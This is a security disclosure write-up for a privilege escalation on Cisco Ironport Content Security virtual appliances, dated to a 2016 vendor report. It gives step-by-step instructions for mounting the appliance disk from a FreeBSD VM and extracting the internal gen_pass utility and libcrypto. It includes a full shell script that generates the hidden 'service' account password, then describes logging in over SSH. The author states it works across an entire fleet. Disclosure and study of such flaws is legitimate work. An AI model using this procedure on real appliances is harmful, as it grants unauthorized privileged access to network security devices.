










# Ironport Vulnerability: Privilege Escalation through internal utility extraction.
_This is a follow-up to the previously explored pub-key injection exploit._ The requirements are the same; however we will extract two files from the virtual appliance.

The main file of interest is the `gen_pass` executable. This program uses the seed key and the serial number as inputs, and will output the password used for the `service` user.

The initial steps are much the same, but we will not be making any changes to the disk of the appliance, so it is technically _safer_ to do. However, I still do not recommend using this on production appliances.

##### Timeline:
__Disclosure to Vendor:__ 2016-10-03

__Vendor Response:__ 2016-10-04

__Vendor Fix/Patch:__ TBA

__Public Disclosure:__ TBA

##### Meta:
__Cisco Bug IDs:__ TBA

#### Requirements
* __Hypervisor__ capable of Hosting 2 virtual machines (VMware Fusion is used in this document).
  * __Content Security VA__ (ESA, SMA, or WSA)
  * __FreeBSD VM__
* `admin` credentials to said VA.

## Instructions
#### 1. Prep
###### On the Hypervisor:
* Both the __Content Security VA__ and the __FreeBSD VM__ need to be shutdown.
* Manually add a the  __Content Security VA__ disk image to the __FreeBSD VM__.


* _Be sure to select the `Share this virtual disk...` option._

* _Verify that you are still going to boot to the `FreeBSD` disk, and not the appliance's._


#### 2. Startup and Discovery
###### On the Hypervisor:
* Start up the __FreeBSD VM__ and make sure it still boots to the original HD (NOT the __Content Security VA__ image).


###### On the FreeBSD VM:
* Determine the device label of the __Content Security VA__'s disk. (Mine was `/dev/da1*`)

* There are multiple available on the drive, so we will need to determine which is useful for this demonstration. (The 3rd partition was root).


#### 3. Copying the necessary files.
###### On the FreeBSD VM:
* Mount the partition we need with `mount -o rw /dev/da1p9 /wsa`
* Copy the `gen_pass` file to the local system.
* Unmount the disk with `umount /dev/da1p9`
* Mount the partition we need with `mount -o rw /dev/da1p3 /wsa`
* Copy `libcrypto.so.6` to the same directory as before.
* Unmount the disk with `umount /dev/da1p3`


#### 4. Coercing the `gen_pass` executable
###### On the __Content Security VA__:
* Create or download the `ironpass` shell script and put it in the same folder as `gen_pass`.

```shell
#!/bin/sh

SERIAL_NUMBER=$1
export SERIAL_NUMBER
SEED_KEY=$2

# They use an old `libcrypto` version, so we need this temporarily.
# NOTE: This version difference can break things.
cp libcrypto.so.6 /usr/lib/libcrypto.so.6

printf "Serial: "
printf $SERIAL_NUMBER
printf "\nSeed Key: "
printf $SEED_KEY
printf "\n... Generating service password...\n"

PASSWORD=$( ./gen_pass $2 )
printf "Service Password: "
printf $PASSWORD
printf "\n"

# Cleaning Up the old libcrypto library.
rm /usr/lib/libcrypto.so.6
```

* The script takes two positional arguments.
  1. Serial Number of the Appliance
  2. Seed key
* Execute this command with `root` or `sudo`.
  * _A random demo serial was used below._



#### 4. Enabling Access
###### On the __Content Security Appliance__:
* Run the following commands: `techsupport` > `sshaccess`
* Use the seed key generated here in the script.

#### 5. Connecting
###### On a client system:
* SSH into the appliance using the `service` user and the password generated from the `ironpass` script.



## Comments:
1. Due to the requirements of the `gen_pass` executable, it can only be executed on FreeBSD systems.
2. This vector can be used on both virtual or physical appliances, and it only needs to be done once for an entire fleet.
